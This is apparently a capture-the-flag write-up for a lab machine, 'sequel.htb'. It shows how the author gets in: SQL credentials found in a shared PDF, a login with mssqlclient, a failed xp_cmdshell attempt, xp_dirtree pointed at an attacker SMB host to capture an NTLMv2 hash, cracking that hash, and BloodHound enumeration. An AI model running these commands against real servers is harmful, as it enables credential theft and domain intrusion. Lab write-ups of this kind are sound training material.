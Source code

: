 From `Public` share we see a pdf document

<img src="https://i.imgur.com/QNv27ZF.png"/>

<img src="https://i.imgur.com/sq17EGX.png"/>

On the first page of the document it talks about accessing SQL Server with a non domain joined machine also it reveals three potential usernames `Tom`, `Brandon` and `Ryan`

<img src="https://i.imgur.com/DeiTtbU.png"/>

On the next page we'll see the credentials 

<img src="https://i.imgur.com/5D5Zqdy.png"/>

## Foothold

We can just try using impacket's mssqclient to login into the database using the provided credentials

```bash
mssqlclient.py PublicUser:GuestUserCantWrite1@sequel.htb
```

<img src="https://i.imgur.com/wD6huLP.png"/>

Trying to enable `xp_cmdshell` but it failed

<img src="https://i.imgur.com/yLRCEWO.png"/>

With `xp_dirtree` we can capture the NTLMv2 hash of the account with which the mssql service is running

```bash
xp_dirtree \\10.10.14.70\uwu
```

<img src="https://i.imgur.com/4XDqj6q.png"/>

With `hashcat` we can crack the hash with the password `REGGIE1234ronnie`

<img src="https://i.imgur.com/amn6Vet.png"/>

With this password we can enumerate to get domain users

<img src="https://i.imgur.com/EVJWLoB.png"/>

However logging with the service account, it failed

<img src="https://i.imgur.com/Gslo2Nm.png"/>

Running bloodhound to enumerate the domain

```bash
python3 /opt/BloodHound.py/bloodhound.py -d 'sequel.htb' -u 'sql_svc' -p 'REGGIE1234ronnie' -c all -ns 10.10.11.202
```
